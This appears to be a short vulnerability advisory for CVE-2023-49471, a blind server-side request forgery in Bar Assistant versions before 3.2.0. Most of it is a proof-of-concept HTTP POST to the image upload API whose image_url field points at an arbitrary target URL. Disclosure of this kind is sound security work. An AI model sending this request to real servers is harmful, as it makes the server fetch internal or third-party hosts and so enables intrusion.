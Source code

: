 # CVE-2023-49471

#### Vulnerability Type
Blind SSRF

#### Affected Product and Version
Bar assistant < 3.2.0

#### Attack Vector
Authenticated users upload an image by URL to the application.

#### Description
The application does not validate a parameter before making a request through Image::make(), which could allow perpetrator to perform Server-side Request Forgery attack.

#### PoC
```
POST /bar/api/images HTTP/1.1

Host: localhost:3000

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: multipart/form-data; boundary=---------------------------8290129562507108753887567115

Content-Length: 459

Referer: http://localhost:3000/cocktails/form

Origin: http://localhost:3000

Sec-Fetch-Dest: empty

Sec-Fetch-Mode: cors

Sec-Fetch-Site: same-origin

authorization: Bearer 1|A3dV5SfOEqxNOY8UQmz2wDqA6ssdtBGHoVyjCFTR186abc29

Connection: close



-----------------------------8290129562507108753887567115

Content-Disposition: form-data; name="images[0][image_url]"



http://<target>/<path>

-----------------------------8290129562507108753887567115

Content-Disposition: form-data; name="images[0][copyright]"





-----------------------------8290129562507108753887567115

Content-Disposition: form-data; name="images[0][sort]"



1

-----------------------------8290129562507108753887567115--
```
